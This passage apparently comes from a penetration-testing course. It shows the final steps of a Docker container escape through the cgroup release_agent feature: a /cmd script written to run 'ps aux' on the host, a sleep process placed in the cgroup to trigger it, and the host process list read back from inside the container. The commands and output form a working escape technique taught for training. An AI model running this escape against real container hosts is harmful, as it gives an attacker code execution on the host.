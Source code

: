 > Listing 57 - Writing the command to execute to release_agent

At this point, we've enabled the notification and set the command to be executed in the **release_agent**. We can verify that the kernel accepted this by checking **/proc/mounts** again.

```
victim_release_agent:~# cat /proc/mounts  | grep devices
cgroup /sys/fs/cgroup/devices cgroup rw,nosuid,nodev,noexec,relatime,devices,release_agent=/var/lib/docker/overlay2/236bf7ed500f09c2cda6b5c672d085f871c7734ba01ed75ee817775df232dc88/diff/cmd 0 0
cgroup /tmp/cgrp cgroup rw,relatime,devices,release_agent=/var/lib/docker/overlay2/236bf7ed500f09c2cda6b5c672d085f871c7734ba01ed75ee817775df232dc88/diff/cmd 0 0
victim_release_agent:~#
```

> Listing 58 - Verifying release_agent

Even though we weren't able to write to the **release_agent** file in the **sys** file system, we were able to still change the **release_agent** configuration. This confirms that the kernel was able to read the configuration. and accept the modification.

Next, we need to create the **cmd** script that will be executed by the host. We'll start with the standard shebang then run the **ps aux** command, but redirect the _stdout_ to a file named **output** in the containers root directory. Remember, to reference the containers root directory, we need to use the **$host_path** variable. Finally, we'll use the **chmod** binary to make the script executable.

```
victim_release_agent:~# echo '#!/bin/sh' > /cmd

victim_release_agent:~# echo "ps aux > $host_path/output" >> /cmd

victim_release_agent:~# chmod a+x /cmd
```

> Listing 59 - Creating Executable Script

At this point, the setup is complete. The only remaining part is to start a process in our custom cgroup. Once the process completes, our script should be executed. For now, we'll run **sleep 30** in the background (by specifying **&** at the end of the command). Once executed, we'll move the sleep process into the cgroup. We can get the process ID of the previous command by using the **$!** variable. We'll add the **sleep** command to the cgroup by adding it to the **/tmp/cgrp/x/cgroup.procs** file.

After 30 seconds, our script should have executed, and we can check the **/output** file for the output of the **ps aux** command.

```
victim_release_agent:~# sleep 30 &

victim_release_agent:~# echo $! > /tmp/cgrp/x/cgroup.procs
victim_release_agent:~#
[1]+  Done                       sleep 30

victim_release_agent:~# head /output
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.2 166860 11068 ?        Ss   12:40   0:01 /sbin/init
root           2  0.0  0.0      0     0 ?        S    12:40   0:00 [kthreadd]
root           3  0.0  0.0      0     0 ?        I<   12:40   0:00 [rcu_gp]
root           4  0.0  0.0      0     0 ?        I<   12:40   0:00 [rcu_par_gp]
root           5  0.0  0.0      0     0 ?        I<   12:40   0:00 [netns]
root           7  0.0  0.0      0     0 ?        I<   12:40   0:00 [kworker/0:0H-events_highpri]
root           9  0.0  0.0      0     0 ?        I<   12:40   0:00 [mm_percpu_wq]
root          10  0.0  0.0      0     0 ?        S    12:40   0:00 [rcu_tasks_rude_]
root          11  0.0  0.0      0     0 ?        S    12:40   0:00 [rcu_tasks_trace]
```
